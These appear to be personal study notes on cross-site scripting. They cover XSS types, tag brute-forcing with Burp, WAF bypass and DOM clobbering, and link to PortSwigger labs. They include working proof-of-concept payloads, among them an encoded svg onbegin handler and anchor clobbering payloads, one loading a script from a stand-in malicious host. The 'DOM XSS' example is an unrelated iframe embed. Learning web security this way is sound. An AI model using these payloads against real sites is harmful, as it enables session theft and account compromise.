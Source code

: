
## types
### Stored (Persistent) 
XSS 	The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)

## Reflected (Non-Persistent) XSS 	
Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)


## DOM-based XSS 	Another Non-Persistent 
XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)


## Tags bruteforcing
- [How to search for XSS (with blacklisted HTML tags)](https://www.youtube.com/watch?v=0kfQsRwr_Bc)
- [portswigger/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

#### steps 
Searching for allowed tags to be inserted in the search field as parameter
1. 'insertpayloadhere' in the field
2. intercept with burp and send to intruder
3. add the tag list to the payload in the intruder settings
4. brute force and look for the 200, we're looking for a tag which allow to have <script> </script>
5. once the tag has been found you need to search for the event eg:onbegin
6. in the search field we will use url encoding: 
```
%3C -> < 
%3E -> >
%20 -> space
%3Csvg%3E%3Canimatetransform%20onbegin%3Dalert%28%22xss%22%29%3E
```

## Waf bypass with anchor
- [Two solutions for the January 2021 Initigriti XSS Challenge](https://www.youtube.com/watch?v=Wbovgw3Qxxc)
```
onmouseover=alert(document.location.has.substring(1))#payloadhere
```

## DOM XSS
```
 <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay"
 src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&
 auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
 ```

##  Exploiting DOM clobbering to enable XSS
- [Two solutions for the January 2021 Initigriti XSS Challenge]([https://www.youtube.com/watch?v=Wbovgw3Qxxc](https://youtu.be/Wbovgw3Qxxc?t=912))
- [portswigger/dom-based/dom-clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
- [portswigger/dom-based/Advanced-dom-clobbering](https://portswigger.net/research/dom-clobbering-strikes-back)
- [HTMLCollection](https://developer.mozilla.org/en-US/docs/Web/API/HTMLCollection)
![](https://i.redd.it/z8hid4itywd91.png)
#### Clobbering definition:
To strike violently and repeatedly; batter or maul. But, In software engineering and Computer science, clobbering a file, Processor register or regions of computer memory is the process of overwriting its contents completely. 
#### Explanation:
~~DOM clobbering is a technique to escalate HTML injection to XSS which has a high impact  DOM clobbering is particularly useful in cases where XSS is not possible, but you can control some HTML on a page where the attributes id or name are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.~~
DOM Clobbering use the HTMLCollection vulnerability which allow you to add to the HTMLCollection a malicious item with the same id. 
#### Steps:
1. find a form where you can submit some html
2. check in the javascript if there is a ```window.element || something here``` 
3. bypass the sanitization with double anchortag ```<a id=defaultAvatar><<a id=defaultAvatar name=avatar href='cid:"onerror=alert(1)//)"'>
  - ```<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>```


## Other Resources:
#### xss API [video](https://youtu.be/xH8WbuApFXw?t=2358)
- filtering and sanitazation come frontend back end.
- Always test that frontend and backend are sanitized.
- eg: registering an account by API with email.

 
